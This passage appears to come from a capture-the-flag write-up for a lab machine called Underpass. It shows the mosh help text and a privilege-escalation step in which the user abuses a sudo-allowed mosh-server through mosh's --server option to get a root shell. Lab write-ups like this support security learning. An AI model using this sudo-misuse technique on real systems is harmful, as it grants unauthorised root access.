 ```

Seems we have to run the command with ```mosh```

```
svcMosh@underpass:~$ mosh
Usage: /usr/bin/mosh [options] [--] [user@]host [command...]
        --client=PATH        mosh client on local machine
                                (default: "mosh-client")
        --server=COMMAND     mosh server on remote machine
                                (default: "mosh-server")

        --predict=adaptive      local echo for slower links [default]
-a      --predict=always        use local echo even on fast links
-n      --predict=never         never use local echo
        --predict=experimental  aggressively echo even when incorrect

-4      --family=inet        use IPv4 only
-6      --family=inet6       use IPv6 only
        --family=auto        autodetect network type for single-family hosts only
        --family=all         try all network types
        --family=prefer-inet use all network types, but try IPv4 first [default]
        --family=prefer-inet6 use all network types, but try IPv6 first
-p PORT[:PORT2]
        --port=PORT[:PORT2]  server-side UDP port or range
                                (No effect on server-side SSH port)
        --bind-server={ssh|any|IP}  ask the server to reply from an IP address
                                       (default: "ssh")

        --ssh=COMMAND        ssh command to run when setting up session
                                (example: "ssh -p 2222")
                                (default: "ssh")

        --no-ssh-pty         do not allocate a pseudo tty on ssh connection

        --no-init            do not send terminal initialization string

        --local              run mosh-server locally without using ssh

        --experimental-remote-ip=(local|remote|proxy)  select the method for
                             discovering the remote IP address to use for mosh
                             (default: "proxy")

        --help               this message
        --version            version and copyright information

```

## root-flag

We can see the  **--server=COMMAND** The default parameter command is mosh-server, and the super privilege command owned by the current user is also this 

RUN 
```
mosh --server="sudo /usr/bin/mosh-server" localhost
```
after running that, we will get access as root

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
